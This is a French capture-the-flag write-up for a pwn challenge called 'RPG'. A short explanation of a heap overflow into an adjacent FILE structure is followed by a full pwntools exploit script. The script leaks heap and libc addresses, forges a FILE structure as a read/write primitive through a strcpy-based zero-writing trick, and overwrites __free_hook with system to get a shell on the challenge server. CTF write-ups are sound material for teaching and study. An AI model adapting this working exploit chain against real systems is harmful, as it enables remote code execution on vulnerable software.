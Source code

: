 #### RPG

était un challenge de pwn où il s'agissait d'exploiter un heap overflow d'un buffer

sur une structure FILE * adjacente..

Et d'utiliser la structure FILE * comme une primitive read/write suivant la technique classique

évoquée par angelboy

https://www.slideshare.net/AngelBoy1/play-with-file-structure-yet-another-binary-exploit-technique

slides 62 à 70 en particulier..

L'exploitation demandait un peu d'astuce car le contenu du buffer overflow était copié via un strcpy,

ce qui demandait d'écrire les zéros grâce au zéro terminant la string copiée..

voir le code pour mieux comprendre la technique

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'info'

exe = ELF("./rpg_patched")
libc = ELF("./libc-2.33.so")

host, port = "challenges.france-cybersecurity-challenge.fr", "2056"

if args.REMOTE:
  p = remote(host,port)
else:
  p = process([exe.path])

p.sendlineafter('name> ', 'aaa')
p.sendline('/nick '+'A'*0x87+'\xff'+'\x00'*0x450 )
p.sendline('/roll '+'1')

p.recvuntil('\x40\x41\x41\x41\x41\x41\xff',drop=True)
heap = u64(p.recvuntil(' ', drop=True).ljust(8,b'\x00'))
if args.REMOTE:
  heap_base = heap - 0x788
else:
  heap_base = heap - 0x1a48

print('heap leak = '+hex(heap))
print('heap base = '+hex(heap_base))

# we overwrite _IO_read_ptr, to use FILE structure as a read primitive
# read an address
def readaddr(addr):
  p.sendline(b'/nick '+b'Z'*0x88+p64(addr))
  p.sendline(b'/roll '+b'18446744073709551615')
  p.recvuntil(b'1d9223372036854775807: ',drop=True)
  val = int(p.recvuntil(b'\n',drop=True),10)
  return val


# use the read primitive to leak a libc address
leak = readaddr(heap_base+0x3f8)  #<<(i*8)
print('leak = '+hex(leak))
libc.address = leak - 0x1e24a0
print('libc base = '+hex(libc.address))

# we recreate FILE structure, to use it as a write primitive
# we write from end to begin of buffer, using zero terminated string to write zeroes..
#
def write_strcpy(payload):
  offset = 0x80
  pos = len(payload)-1
  while(pos>=0):
    c = payload[pos]
    if (c==0):
      p.sendline(b'/nick '+b'Z'*(offset+pos))
      pos -= 1
    else:
      apos = pos
      while ((payload[apos-1] != 0) and (apos>=0)):
        apos -= 1
      p.sendline(b'/nick '+b'Z'*(offset+apos)+payload[apos:pos+1])
      pos = apos-1


#--------------------------------------------------------------
# target to be overwritten --> __free_hook
target = libc.sym['__free_hook']
len_target = 0x10
# we recreate the file structure to use it as a write primitive
payload =  p64(0xfbad2488) + p64((heap-8)+0x1000) + p64((heap-8)+0x1000) + p64(heap-8)*4 + p64(target) + p64(target+len_target) + p64(0)*4 + p64(libc.address + 0x1e15e0) + p8(0)
write_strcpy(payload)

p.sendline(b'/roll 256')
# overwrite  __free_hook  with system address
p.sendline(p64(libc.sym['system'])*2)


# from now everything entered via getline, will be executed, basically we got a shell when trying to free the buffer

p.interactive()

```

